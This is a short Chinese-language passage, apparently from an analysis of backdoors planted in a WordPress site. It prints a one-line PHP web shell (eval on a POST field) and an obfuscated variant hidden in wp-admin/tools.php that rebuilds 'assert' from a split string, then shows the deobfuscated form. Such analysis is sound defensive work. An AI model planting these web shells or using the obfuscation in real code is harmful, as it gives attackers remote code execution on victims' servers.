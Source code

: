 ![](image/25.png)

漏洞出现的地方在:

```php
@eval($_POST['admin']);
```

#### 命令执行

文件路径：

> wp-admin/tools.php

漏洞出现的地方在:

![](image/27.png)

```php
/** WordPress Administration Bootstrap */
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; @$poc_2($_POST['_']);
```

非常容易能看出

```php
@assert($_POST['_']);
```
